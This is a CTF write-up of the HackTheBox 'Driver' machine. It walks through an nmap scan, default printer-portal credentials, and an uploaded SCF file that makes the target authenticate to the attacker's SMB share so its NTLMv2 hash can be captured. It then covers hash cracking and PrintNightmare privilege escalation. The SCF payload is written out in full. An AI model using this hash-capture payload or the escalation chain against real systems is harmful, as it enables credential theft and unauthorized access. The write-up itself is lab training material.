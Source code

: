 ```yaml
---
title: Driver -- Writeup
date: 2022-03-28
categories: [HackTheBox, Easy]
tags: [hackthebox, ctf, scf, ad, printnightmare]
img_path: /assets/img/hackthebox/active/     # TAG names should always be lowercase
published: false
---
```


# Summary -
Easy rated Windows machine from Hackthebox. Pretty fun... Have to use scf attacks for initial access and then printnightmare for privilege escalation.

# Enumeration -
nmap, here we go...
### nmap -
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-16 09:42 EST
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 89.98% done; ETC: 09:44 (0:00:12 remaining)
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.73% done; ETC: 09:44 (0:00:00 remaining)
Nmap scan report for 10.10.11.106
Host is up (0.077s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10|7|2016|Vista (90%), FreeBSD 6.X (86%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10 cpe:/o:freebsd:freebsd:6.2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (90%), Microsoft Windows 10 1511 - 1607 (87%), FreeBSD 6.2-RELEASE (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%), Microsoft Windows 7 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-01-16T21:44:17
|_  start_date: 2022-01-16T19:29:27
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   82.39 ms 10.10.14.1
2   82.42 ms 10.10.11.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.78 seconds
```

Couple of ports are open. The one we might find interesting are port 80 http and port 5985 winrm.
Nmap says there is some login portal on port 80.

![nmap](1.png)

After one quick search for default creds, I got it right away which are **admin:admin**. Also, this is some kind of printer page... So, maybe printnightmare? Let's try...

![printnightmare](3.png)

And it is indeed vulnerable to printnightmare but we need initial access to use it. So, let's continue with the creds we found...

Let's login and check what's in there. Looks like we can upload files and the team on the box will do some testing...
Tried a couple of things but no luck then came accross srf attacks. Let's try to do srf attack and see if we can get some connection back.

```srf
[Shell]
Command=2
IconFile=\\10.10.14.111\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

[srf_attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-files)

And yeah, we got connection back to responder with ntlmv2 hash. Let's try to crack it using hashcat.

![hashcat](2.png)

Cool, we got creds for tony which are **tony:\<redacted\>**.

Let's login as tony using evil-winrm.

# Post Exploitation -
Remember, we tried to check it for printnightmare and indeed it is vulnerable. So, let's exploit it.

Let's grab that exploit, transfer it to victim and get root.

![invoke-nightmare](4.png)
_[cve-2021-34527](https://github.com/JohnHammond/CVE-2021-34527)_

Let's try winrm as our new local admin user.

![admin](5.png)

And we owned this. :D
